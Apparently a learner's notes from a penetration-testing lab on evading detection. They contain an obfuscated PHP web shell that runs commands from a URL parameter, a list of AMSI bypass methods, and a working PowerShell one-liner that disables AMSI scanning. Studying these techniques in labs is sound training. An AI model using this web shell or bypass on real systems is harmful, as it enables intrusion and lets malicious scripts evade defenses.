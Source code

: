 
Let's 1st try what we have learnt in wreath network and if it doesn't work will learn what they are teaching us.

Let's try this obfuscation
https://www.gaijin.at/en/tools/php-obfuscator
```
<?php system($_GET[base64_decode('Y21k')]);?>
```


As i was going through this Php obfuscation won't work so will have to learn something on the lines of either updating amsi.dll or obfuscate it aka AMSIception.



<hr>



There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade



<hr>


Will Target `Matt Graeber` reflection method as well as patching `amsi.dll`

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

##  It is helpful to think of obfuscation as an art rather than a technique.


To aid in our obfuscation efforts, we will use the AMSITrigger script, [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger), written by RythmStick

